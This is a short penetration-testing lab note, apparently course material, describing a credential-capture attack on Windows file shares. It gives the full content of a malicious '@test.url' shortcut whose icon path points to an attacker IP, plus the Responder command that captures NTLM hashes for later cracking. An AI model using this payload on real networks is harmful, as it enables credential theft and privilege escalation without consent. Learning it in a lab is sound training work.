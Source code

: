 
If we have compromised a particular user, and that user has any sort of share access, file share access.

- we can utilize this to capture more hashes via responder
- Go back and try to crack this hashes
- Then get a user with more advanced privileges

This attack requires a compromised user account or an open file share, where you can put a file in the share.

- The content of the file contains what is shown below, whereby we will replace `x.x.x.x` with our attacker IP

```html
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\x.x.x.x\%USERNAME%.icon
IconIndex=1
```

- We can then save the file as `"@test.url"` and upload it to a share (**File explorer >> Network >> HYDRA-DC >> hackme**) on your THEPUNISHER vm (This should be done in the windows system)
- Make sure **HTTP** and **SMB** is turned ON in responder. (default responder settings)
- Then start up responder with the command `sudo responder -I wlan0 -v` 
- Navigate back to that share where the file was uploaded on your THEPUNISHER vm and go back to your terminal where responder is opened, you should see the hashes dumped

Navigate to https://academy.tcm-sec.com/courses/1152300/lectures/33637401 to know better


